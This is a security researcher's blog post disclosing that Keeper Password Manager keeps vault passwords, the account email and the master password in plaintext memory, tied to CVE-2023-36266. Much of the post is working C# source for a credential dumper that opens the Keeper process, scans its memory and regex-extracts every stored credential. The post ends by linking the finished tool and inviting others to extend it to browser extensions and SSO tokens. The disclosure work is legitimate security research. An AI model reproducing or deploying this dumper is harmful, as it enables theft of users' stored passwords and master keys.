## <u>It's Not What You Think - It's Worse</u>
There are a number of password management solutions available to the public. While some have naturally been deprecated due to security concerns or improvements in cryptographic handling. The noteworthy part is that they usually don't just hand over plain text passwords when asked.


With that piece of foreshadowing, the target for today's post is a solution quickly growing in popularity even amongst enterprise users: <b>[Keeper Password Manager](https://www.keepersecurity.com/)</b>

## <u>To Keep or Not To Keep</u>

To begin I start by installing Keeper Password Manager, creating an account, and creating some fake credential entries. By now I of course notice that the Desktop App was effectively Electron, or a Chromium Embedded Framework (`CEF`) application.



Now, the lowest hanging fruit thing I can think to attempt. Attach WinDebug to Keeper and use it to search memory for password strings or structures that could map where they are stored. Attempting to search for the credentials in memory very graciously gives them to us in plain text - oh joy.



Now I have an idea of how they are being stored in memory though and the JSON layout. This will prove useful in searching for others, so I used the start of the JSON to search for other entries. There were many - with each having two memory locations.



Now I begin looking for patterns that could help me figure out the mapping or locations these are written to, anything that could act as the equivalent to a V8 string mapping table.

After some searching and comparing a pattern begins to emerge. All the addresses have pointers for them stored at: `0x??fff0020 -> 0x??fff0030`



Through further searching I did find that this could vary with the most reliable range being `0x??fff0010 -> 0x??fff1ff0` as the increments of `0x10` each appeared to store a pointer to a different string or value - including the JSON password strings.

## <u>What A Dump ...</u>

There is a fundamental issue with our the above means of attempting to parse and extract passwords, and that is the JavaScript engine V8. The way in which this engine allocates memory and how it can vary kills any chances we have of relying on this for credential dumping. So upon restarting the target Keeper password manager vault, the pointer locations can vary wildly. 

Fortunately, Enoch Wang, Samuel Zurowski, and Tyler Thomas published some research into V8 Memory mapping called [Juicing V8](https://www.youtube.com/watch?v=WkVLxQ8-quo) . So thanks to the University of New Haven for the helpful work and resources. Unfortunately, it didn't help in this case - wether this is the result of Electron or V8 versioning or error on my part I am not sure.

According, to their work and corresponding Volatility Plugin: V8 operates by crating a MetaMap which stores a pointer reference to itself `+0x1`, this pointer is also present in the Object maps and the pointers for these Object maps are then once again stored in the Object Structures where strings and other data can be found and extracted. 



So in theory, one could iterate over memory to find a specific byte pattern, always present at `+0x10` bytes after the start of the MetaMap: `ff 03 (40 | 20) 00` - at least according to the volatility plugin and the Juicing V8 research work. Sadly this byte pattern is seemingly unreliable and produces inaccurate results in the case of Keeper but it is something that could be built upon in future.

So, with no 'refined' means of mapping and parsing the target application's memory I turned to the biggest hammer I could find for this metaphorical nail: <b><i>RegEx</i></b>

# <u>Witty Expression Cirqa 1951</u>

To begin I started by constructing the necessary CSharp code.

```csharp
    public static List<string> stringsList = new List<string>();
    static void Main(string[] args)
    {
        // Iterate over each process id
        foreach (var process in Process.GetProcessesByName("keeperpasswordmanager"))
        {
            // Get process command line string
            string commandline = GetCommandLine(process);
            // Check if it matches known child process client id that stores credentials
            if (commandline.Contains("--renderer-client-id=5") || commandline.Contains("--renderer-client-id=7"))
            {
                Console.WriteLine("->Keeper Target PID Found: {0}", process.Id.ToString());
                Console.WriteLine("->Searching...\n");
                // Get process handle, VM READ and QUERY
                IntPtr processHandle = OpenProcess(0x00000400 | 0x00000010, false, process.Id);
                // Start address
                IntPtr address = new IntPtr(0x10000000000);
                MEMORY_BASIC_INFORMATION memInfo = new MEMORY_BASIC_INFORMATION();
                // Iterate over memory regions
                while (VirtualQueryEx(processHandle, address, out memInfo, (uint)Marshal.SizeOf(memInfo)) != 0)
                {
                    // Check if memory committed & Type is private
                    if (memInfo.State == 0x00001000 && memInfo.Type == 0x20000)
                    {
                        byte[] buffer = new byte[(int)memInfo.RegionSize];
                        // Read region into buffer the size of memory region.
                        if (NtReadVirtualMemory(processHandle, memInfo.BaseAddress, buffer, (uint)memInfo.RegionSize, IntPtr.Zero) == 0x0)
                        {
                            string text = Encoding.ASCII.GetString(buffer);
                            extract_credentials(text);
                            extract_master(text);
                            extract_account(text);
                        }
                    }
                    // Increment to next region
                    address = new IntPtr(memInfo.BaseAddress.ToInt64() + memInfo.RegionSize.ToInt64());
                }
                // Close process handle when finished
                CloseHandle(processHandle);
            }
        }
    }
```

I did spot that <b>Keeper</b> almost always starts the password containing child process with `--renderer-client-id=5`.



This can alter if the target child process crashes and the parent does not terminate, so felt it best to include a check for `7` as well:

```csharp
    public static string GetCommandLine(this Process process)
    {
        if (process is null || process.Id < 1)
        {
            return "";
        }
        // Construct LINQ query to get process command line
        string query = $@"SELECT CommandLine FROM Win32_Process WHERE ProcessId = {process.Id}";

        // Create Object Searcher and get then return command line
        using (var searcher = new ManagementObjectSearcher(query))
        using (var collection = searcher.Get())
        {
            var managementObject = collection.OfType<ManagementObject>().FirstOrDefault();
            return managementObject != null ? (string)managementObject["CommandLine"] : "";
        }
    }
```

Moving onto the next step, we need to be able to make all our needed Win32 API calls. To accomodate this I created the necessary DLL Imports. 

Also, no I did not go the extra mile and make use of D/Invoke or Syscalls, I have some love for my free time.

We can now make a call to get a handle to the target process with both virtual Memory read and query information permissions. Using this handle we can perform the needed operations to extract potential credential data.

```csharp
    [DllImport("kernel32.dll")]
    public static extern IntPtr OpenProcess(uint dwDesiredAccess, [MarshalAs(UnmanagedType.Bool)] bool bInheritHandle, int dwProcessId);

    [DllImport("kernel32.dll")]
    public static extern bool CloseHandle(IntPtr hObject);

    [DllImport("ntdll.dll")]
    public static extern uint NtReadVirtualMemory(IntPtr ProcessHandle, IntPtr BaseAddress, byte[] Buffer, UInt32 NumberOfBytesToRead, IntPtr NumberOfBytesRead);

    [DllImport("kernel32.dll", SetLastError = true)]
    public static extern int VirtualQueryEx(IntPtr hProcess, IntPtr lpAddress, out MEMORY_BASIC_INFORMATION lpBuffer, uint dwLength);

    [StructLayout(LayoutKind.Sequential)]
    public struct MEMORY_BASIC_INFORMATION
    {
        public IntPtr BaseAddress;
        public IntPtr AllocationBase;
        public uint AllocationProtect;
        public IntPtr RegionSize;
        public uint State;
        public uint Protect;
        public uint Type;
    }
```

Now finally to incorporate the code to handle extracting the records. Under more surgical conditions we could attempt to precisely determine the length. If we look around near the stored password JSON string we can quickly identify a useful set of bytes. Exactly 8 bytes prior to the password JSON is four bytes that are almost always seemingly `0x00000180 | 384`. 



If we however create an entry in Keeper that exceeds this length we see it changes to `0x00000400 | 1024`



If we compare the base address with this length - 0x1 we can see we perfectly match the padding that surrounds the end of the JSON string object which is always padded with 0x20's.



However, as discussed before, surgical precision and the V8 MetaMap structures were not reliable during my analysis. So with this in mind we can simply rely on RegEx to grab the appropriate JSON structure. I would like to apologise in advance for the messiest set of Regular Expressions to grace the internet.

```csharp
    public static void extract_credentials(string text)
    {
        // Index for start of target JSON string
        int index = text.IndexOf("{\"title\":\"");
        // Index for end of JSON string
        int eindex = text.IndexOf("}");
        while (index >= 0)
        {
            try
            {
                int endIndex = Math.Min(index + eindex, text.Length);
                // Create regex statement to match JSON structure
                Regex reg = new Regex("(\\{\\\"title\\\"[ -~]+\\}(?=\\s))");
                // Use regex to match and convert the match to a string
                string match = reg.Match(text.Substring(index - 1, endIndex - index)).ToString();

                // Get index of end of the regex match (for cleaning)
                int match_cut = match.IndexOf("}  ");
                // if matched
                if (match_cut != -1 )
                {
                    // Cut and trim the match to remove duplicates and empty spaces
                    match = match.Substring(0, match_cut + "}  ".Length).TrimEnd();
                    // Compare to string list to check if already extracted
                    if (!stringsList.Contains(match) && match.Length > 20)
                    {
                        Console.WriteLine("->Credential Record Found : " + match.Substring(0, match_cut + "}  ".Length) + "\n");
                        stringsList.Add(match);
                    }

                } else if (!stringsList.Contains(match.TrimEnd()) && match.Length > 20)
                {
                    Console.WriteLine("->Credential Record Found : " + match + "\n");
                    stringsList.Add(match.TrimEnd());
                }
                index = text.IndexOf("{\"title\":\"", index + 1);
                eindex = text.IndexOf("}", eindex + 1);
            }
            catch
            {
                return;
            }

        }
    }
```

However, there are crucial bits of data missing here. Keeper stores far more of value in memory than just the vault records. One can find the user account email address in memory using the below.

```csharp
    public static void extract_account(string text)
    {
        int index = text.IndexOf("{\"expiry\"");
        int eindex = text.IndexOf("}");
        while (index >= 0)
        {
            try
            {
                int endIndex = Math.Min(index + eindex, text.Length);
                Regex reg = new Regex("(\\{\\\"expiry\\\"[ -~]+@[ -~]+(?=\\}).)");
                string match = reg.Match(text.Substring(index - 1, endIndex - index)).ToString();
                if ((match.Length > 2))
                {
                    Console.WriteLine("->Account Record Found : " + match + "\n");
                    return;
                }
                index = text.IndexOf("{\"expiry\"", index + 1);
                eindex = text.IndexOf("}", eindex + 1);
            }
            catch
            {
                return;
            }
        }

    }
```

Also, while the idea of a master password is great - it is conveniently stored in memory in plain text right next to a recognizable `data_key` identifier for easy retrieval.




An exception to this is SSO logins which instead appear to store a JSON Web Token, in a separate JSON object. Not that anyone has an interest in that, ***wink wink***. 

So I shall apply checks for the master password too, by looking for the data_key key word and filtering out known useless result patterns.

```csharp
    public static void extract_master(string text)
    {
        int index = text.IndexOf("data_key");
        int eindex = index + 64;
        while (index >= 0)
        {
            try
            {
                int endIndex = Math.Min(index + eindex, text.Length);
                Regex reg = new Regex("(data_key[ -~]+)");
                var match_one = reg.Match(text.Substring(index - 1, endIndex - index)).ToString();
                Regex clean = new Regex("(_[a-zA-z]{1,14}_[a-zA-Z]{1,10})");
                if (match_one.Replace("data_key", "").Length > 5)
                {
                    if (!clean.IsMatch(match_one.Replace("data_key", "")))
                    {
                        Console.WriteLine("->Master Password : " + match_one.Replace("data_key", "") + "\n");
                    }

                }
                index = text.IndexOf("data_key", index + 1);
                eindex = index + 64;
            }
            catch
            {
                return;
            }

        }
    }
```

## <u>Burn The Dump</u>

After debugging and testing my code I have now reached a stable point where it consistently dumps all stored credentials across hosts and installs.



From here it is worth asking, what happens when it signs the user out or if a user deletes a record? Well fear not, it does nothing. Unless you are using an enterprise or SSO sign-in, memory clearing will not be configured by default.

So long as the application and its child processes haven't been entirely restarted then they are kept nicely in memory. This even applies to if your session 'times out', so long as the memory clearing setting hasn't been manually enabled by the user.

Well surely the browser extension doesn't suffer from this issue and manages the storage of clear text credentials carefully with clearing of memory and on-demand credential retrieval? No, it really doesn't. The below is a live MSEDGE browser child process memory which has all the credentials stored in plain text.



For any of those wondering if this is of concern to Keeper please see the attached out-of-scope vulnerability disclosure bullet point.

- <b>Bugs that rely on keylogging, compromise of the operating system or privileged access</b>

Never the less, MITRE has reserved the above issues under <b>[CVE-2023-36266](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-36266)</b>.

So, in conclusion I can highly recommend Keeper Security and their secure password storage solutions. If you would like to make full use of Keeper's broad feature set feel free to download my tool from here: <b>[Peeper Password Dumper](https://github.com/H4rk3nz0/Peeper)</b>

While my tool doesn't parse and retrieve credentials from browsers, I am sure some smart people out there will have that working soon. Thanks for reading.